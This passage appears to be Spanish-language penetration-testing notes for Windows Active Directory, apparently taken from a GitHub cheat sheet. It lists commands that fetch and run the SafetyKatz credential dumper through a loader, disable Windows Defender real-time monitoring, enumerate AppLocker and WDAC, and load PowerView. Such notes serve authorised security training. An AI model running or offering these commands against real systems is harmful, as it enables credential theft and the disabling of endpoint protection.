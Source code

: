 ```
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe
```
#### Verificando Port Forward

```cmd
netsh interface portproxy show v4tov4
```
### AD

```
### Consultar el dominio actual
$env:UserDNSDomain
```
# AppLocker, WDAC, Windows Defender, ConstrainedLanguage

```
### Verificar modo de lenguaje
$ExecutionContext.SessionState.LanguageMode
```

- Las políticas de Applocker se almacenan en el registro. Se pueden realizar consultas al registro, si se obtiene un error significa que Applocker no está en uso. Tenga en cuenta que el siguiente comando asume que reg.exe tiene permiso para ejecutarse en el entorno.

```
### Enumerar AppLocker con reg.exe
reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2
# Enumerar AppLocker con Get-AppLockerPolicy
Get-AppLockerPolicy -Effective
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

- También se puede usar el comando ``wmic`` para comprobar WDAC

```
# Enumerar WDAC
Get-CimInstance -ClassName Win32_DeviceGuard  -Namespace root\Microsoft\Windows\DeviceGuard
```

```
# Windows Defender
### Enumerar Windows Defender 
Get-MpComputerStatus
### Compruebe tamper protection
Get-MpComputerStatus|select IsTamperProtected
### Deshabilitar Monitoreo en tiempo real
Set-MpPreference -DisableRealtimeMonitoring $true
```
# PowerShell

```
# PowerShell Scripts y Modules

### Cargar script PowerShell en la sesión actual
. C:\AD\Tools\PowerView.ps1

### Importar un modulo o script
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1

### Listar los comandos de un modulo
Get-Command -Module <modulename>
```
### PowerShell Script Execution
